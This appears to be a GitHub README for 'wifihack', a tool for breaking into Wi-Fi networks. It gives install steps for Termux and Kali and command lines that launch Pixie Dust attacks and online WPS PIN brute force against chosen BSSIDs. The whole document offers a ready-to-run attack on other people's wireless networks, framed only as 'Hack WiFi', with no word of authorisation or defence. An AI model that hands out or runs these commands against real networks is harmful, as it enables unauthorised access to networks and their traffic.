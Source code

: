 # wifihack

Hack WIfi Using Termux! (Requires Root)
Installation :


$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/rareblack35/wifihack

$ cd wifihack

$ chmod +x dark.py

$ sudo python dark.py --help


Example : sudo python3 dark.py -i wlan0 -K

Note:

First turn off your Wifi.

Hack WIfi Using Kali!
Installation :
$ git clone https://github.com/rareblack35/wifihack
$ cd wifihack
$ chmod +x dark.py
$ sudo python3 dark.py -i wlan1 -K

$ sudo python dark.py --help

Example : sudo python3 dark.py -i wlan0 -K
Note:

    Show avaliable networks and start Pixie Dust attack on a specified network.
    sudo python3 dark.py -i wlan0 -K
        Start Pixie Dust attack on a specified BSSID: sudo python dark.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
    Launch online WPS bruteforce with the specified first half of the PIN:
    sudo python dark.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
